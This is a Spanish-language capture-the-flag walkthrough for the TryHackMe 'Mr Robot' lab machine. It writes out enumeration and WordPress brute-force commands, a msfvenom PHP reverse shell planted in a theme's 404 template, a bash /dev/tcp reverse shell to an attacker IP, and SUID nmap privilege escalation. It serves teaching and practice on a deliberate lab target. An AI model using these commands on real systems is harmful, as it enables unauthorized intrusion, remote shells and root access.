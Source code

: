 # Ejercicio Práctico Maquina Mr Robot CTF – Hacking WordPress + Escalada de Privilegios

Maquinas que vamos a utilizar **Kali Linux y mrrobot**  [https://tryhackme.com/room/mrrobot](https://tryhackme.com/room/mrrobot)

```bash
ping -c 1 10.10.192.154
```

![image.png](./imagenes/image.png)

```bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 10.10.192.154
```
 
![image.png](./imagenes/image%201.png)

- Miramos el puerto 80 con nuestro navegador web
    
    ![image.png](./imagenes/image%202.png)
    

- Miramos lo que corre por el puerto 443 por donde también hay un servidor web.
    
    ![image.png](./imagenes/image%203.png)
    
    Corre la misma web
    

- Hacemos fuzzing con **gobuster.**
    
    ```bash
    gobuster dir -u http://10.10.192.154/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
    ```
    
    ![image.png](./imagenes/image%204.png)
    
    Vemos que es un WordPress.
    
- Vamos a probar a entrar en **wp-login**.
    
    `http://10.10.192.154/wp-login`
    
    ![image.png](./imagenes/image%205.png)
    
    Imaginemos que sospechamos o adivínanos el **usuario “Elliot”.**
    
    <aside>
    💡
    
    En WordPress en versiones un poco antiguas podemos comprobar si existe ese usuario por el tipo de error que nos genera al introducirlo con una contraseña errónea. 
    
    Si no fuera un usuario existente el error seria el siguiente: “**ERROR: Invalid username. Lost your password?**” → “**ERROR: Usuario no válido. ¿Olvidaste tu contraseña?”**
    
    ![image.png](./imagenes/image%206.png)
    
    Básicamente seria este mensaje en el que se entiende que el usuario existe.
    
    **“ERROR: The password you entered for the username Elliot is incorrect. Lost your password?” → “ERROR: La contraseña que introdujiste para el usuario Elliot es incorrecta. ¿Perdiste tu contraseña?”**
    
    ![image.png](./imagenes/9abe630f-4862-460c-b182-3f0b3fc07dfe.png)
    
    </aside>
    
- Ya que tenemos un nombre de usuario hacemos un ataque de fuerza bruta con **WpScan** ya que **estamos en un WordPress.**
    
    ```bash
    wpscan --url [http://10.10.192.154/wp-login.php](./imagenes/http://10.10.192.154/wp-login.php) --passwords /usr/share/wordlists/rockyou.txt --usernames Elliot
    ```
    
    ![image.png](./imagenes/image%207.png)
    
    En este caso **el ataque de fuerza bruta no funciona**. Debemos investigar por los directorios.
    
    En esta maquina dentro del directorio `/license` que hemos encontrado con gobuster encontramos una línea al final del archivo que nos muestra.
    
    ![image.png](./imagenes/image%208.png)
    
    ![image.png](./imagenes/image%209.png)
    
    `ZWxsaW90OkVSMjgtMDY1Mgo=`
    
    - Es importante **probar** si esta **codificado en base64** de esta manera**:**
        
        ```bash
        echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d
        ```
        
        ![image.png](./imagenes/image%2010.png)
        
        Donde estaría el **usuario y la contraseña**: “**elliot:ER28-0652**”
        
- Nos volvemos a **wp-login** y introducimos las credenciales.
    
    ![image.png](./imagenes/image%2011.png)
    

---

- Vamos a ganar acceso a la maquina victima
    - En el menú Izquierdo acedemos a **Appearance  → Editor**
        
        ![image.png](./imagenes/image%2012.png)
        
        ![image.png](./imagenes/image%2013.png)
        
    - En una terminal vamos a crear un Payload **malicioso en php con msfvenom**.
        
        ```bash
        msfvenom -p php/reverse_php LHOST=10.21.166.149 LPORT=443 -f raw > wp.php
        ```
        
        ![image.png](./imagenes/image%2014.png)
        
    - Lo visualizamos y copiamos todo su contenido al portapapeles.
        
        ```bash
        cat pwned.php 
        ```
        
        ![image.png](./imagenes/image%2015.png)
        
    
    - Editamos la platilla por ejemplo la “**404 Template**”. Eliminamos s contenido y pegamos el del archivo malicioso que hemos creado.
        
        ![image.png](./imagenes/image%2016.png)
        
    - En un terminal nos ponemos a la escucha con netcat.
        
        ```bash
        nc -nlvp 443
        ```
        
        ![image.png](./imagenes/image%2017.png)
        
    - Vamos al navegador web y escribimos la siguiente URL `http://10.10.118.131/wp-content/hdkfdskfd`
        
        `/wp-content` - Es la ruta donde se encuentran las plantillas.
        
        `/hdkfdskfd` - Es inventado por que lo que queremos es que nos de un error 404 y nos cargue la plantilla con el código malicioso.
        
        ![image.png](./imagenes/image%2018.png)
        
        ![image.png](./imagenes/image%2019.png)
        
        Ya tenemos la conexión.
        
    - Vamos a **estabilizarla la conexión** y hacer el **tratamiento de la TTY**.
        - Ponemos el puerto 4444 a la escucha
            
            ![image.png](./imagenes/image%2020.png)
            
        - Vamos a la web [https://www.revshells.com/](./imagenes/https://www.revshells.com/)
            
            ![image.png](./imagenes/image%2021.png)
            
            `bash -c "sh -i >& /dev/tcp/10.21.166.149/4444 0>&1"`
            
            Lo pegamos en el escucha del puerto 443
            
            ![image.png](./imagenes/image%2022.png)
            
            Y ya tendríamos una conexión estable en la escucha del puerto 4444.
            
            ![image.png](./imagenes/image%2023.png)
            
        - Hacemos el tratamiento de la TTY
            
            En este caso un tratamiento estándar de la TTY no funciona así que vamos a poner lo siguiente:
            
            `python -c "import pty;pty.spawn('/bin/bash')”`
            
            ![image.png](./imagenes/image%2024.png)
            
    - Nos movemos por los directorios y nos encontramos un archivo llamado **password.raw-md5** en la carpeta **/home/robot.** Miramos en su interior.
        
        `cat password.raw-md5`
        
        ![image.png](./imagenes/image%2025.png)
        
        Vemos que hay una **contraseña hasheada**.
        
    - Utilizaríamos John the Ripper o vamos a la web [https://crackstation.net/](./imagenes/https://crackstation.net/) y introducimos  la contraseña hasheada.
        
        ![image.png](./imagenes/image%2026.png)
        
    
    `abcdefghijklmnopqrstuvwxyz`
    
    - Vamos a cambiarnos de usuario a **usuario rotbot.**
        
        `su robot`
        
        ![image.png](./imagenes/image%2027.png)
        
    
    - Hacemos una escalada de privilegios
        
        `sudo -l`
        
        ![image.png](./imagenes/image%2028.png)
        
        Vemos que no funciona
        
    - Buscamos **binarios SUID.**
        
        `find / -perm -4000 2>/dev/null`
        
        ![image.png](./imagenes/image%2029.png)
        
    
    - Utilizamos la web de [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/) para ver si podemos utilizar alguno y como hacerlo. Por ejemplo  **/usr/local/bin/nmap**
        
        ![image.png](./imagenes/image%2030.png)
        
    - Como TIP En caso de no funcionar echaremos mano a las búsquedas en internet
        
        `nmap privilege escalation suid`
        
        ![image.png](./imagenes/image%2031.png)
        
        ![image.png](./imagenes/image%2032.png)
        
        **Lo probamos:**
        
        `nmap --interactive`
        
        `!sh`
        
        `whoami`
        
        ![image.png](./imagenes/image%2033.png)